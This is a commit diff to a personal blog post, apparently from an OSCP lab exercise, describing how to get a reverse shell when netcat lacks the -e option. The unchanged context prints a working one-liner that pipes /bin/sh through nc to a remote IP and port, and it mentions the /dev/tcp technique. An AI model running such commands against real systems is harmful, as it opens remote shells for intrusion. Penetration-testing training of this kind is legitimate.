

Before and after one commit to jkeuper/jkeuper.github.io, a Jekyll site: the page built from _posts/2017-08-26-netcat-without-e.md, in a window 1280 px wide and 1400 px high, scrolled down 684 px. Shown: the top 1371 px of the window at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update 2017-08-26-netcat-without-e.md

````diff
--- a/_posts/2017-08-26-netcat-without-e.md
+++ b/_posts/2017-08-26-netcat-without-e.md
@@ -13,7 +13,7 @@ Recently in my OSCP course, I was struggeling a few hours to get a reversed shel
 <img src="/images/posts/netcat_freebsd.png"
      alt="Netcat on FreeBSD"
      class="media pull-right img-thumbnail">
-I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following solution.
+I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following simple solution.
 
 1. Use _tail -f_ to feed commands from a temporary file to bash. (Using _-n 0_ to ignore any current content of the temporary file.)
 2. Redirect the output of the shell command to netcat.
@@ -25,7 +25,7 @@ The result looks like:
 tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 10.11.0.49 443 1> /tmp/1
 ```
 
-And don't forget, all your commands are stored in the /tmp/1 file... (ツ)
+That's awsome! But don't forget, all your commands are stored in the /tmp/1 file... (ツ)
 
 From many other options I found, none seemed to work. A quick test showed that the famous
 [/dev/tcp/&lt;ip&gt;/&lt;port&gt;](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
@@ -46,3 +46,5 @@ To wrap up, which things slowed me down finding a way to obtain a reverse shell?
 2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
 3. When _uname -a_ gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
 4. Oh, and last: _chmod +x_ did not work, _chmod 777_ did the job... (◔_◔)
+
+_If at first you don't succeed, try, try, try harder!_
````
